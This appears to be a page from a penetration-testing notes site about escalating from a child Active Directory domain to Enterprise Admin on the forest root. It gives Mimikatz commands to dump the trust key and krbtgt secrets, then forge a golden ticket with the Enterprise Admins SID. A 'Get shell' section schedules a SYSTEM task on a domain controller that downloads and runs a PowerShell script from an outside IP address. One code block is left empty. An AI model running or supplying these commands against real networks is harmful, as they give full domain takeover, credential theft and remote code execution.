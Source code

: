 # Trusted Key

## Trusted Key

Require to be domain Admin on the child domain

Can lead to Enterprise Admin compromise.

{% hint style="info" %}
* Child to Forest Root
* Domains in the same forest have a implicit 2-ways trust with other domains.
* Trust key between parent and child domains
{% endhint %}

2 ways to escalate privileges between 2 domains in the same forest :

* krbtgt hash
* Trust Tickets

## KRBTGT

### Get the Trust key

{% hint style="warning" %}
2 techniques are available :

* **lsadump::trust /patch**
* **lsadump::dcsync**
{% endhint %}

```csharp
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc02
```

![](<../../../../.gitbook/assets/image (2) (1) (1) (1).png>)

#### Second technique

```csharp
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:crook.badcorp.local /user:badcorp$"'
```

![](<../../../../.gitbook/assets/image (176).png>)

{% hint style="warning" %}
To access to the Root forest, the domain controller in the child forest will create a TGT for Root forest DC and indicate that it’s a referral to a TGS. This TGT is not signed by the krbtgt password hash but instead with the trust key
{% endhint %}

### Golden ticket to Root Forest Enterprise Admins

#### Get krbtgt hash on the child domain

```csharp
```

#### Golden Ticket

* Domains SID&#x20;

![](<../../../../.gitbook/assets/image (54).png>)

#### - Golden ticket :

```csharp
Invoke-Mimikatz -command '"kerberos::golden /user:idontexit /domain:crook.badcorp.local /krbtgt:redacted /sid:S-1-5-21-xxxxxxxxx-xxxxxx-xxxxx /sids:S-1-5-21-xxxxxxx-xxxxxx-519 /ptt"'
```

![](<../../../../.gitbook/assets/image (290).png>)

### Get shell

```csharp
 schtasks /create /S DC.test.lab.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR  "powershell.exe -c 'iex (New-Object  Net.WebClient).DownloadString(''http://172.16.100.82/polo.ps1''')'"
 schtasks.exe /run /S DC.test.lab.local /TN "STCheck"
```
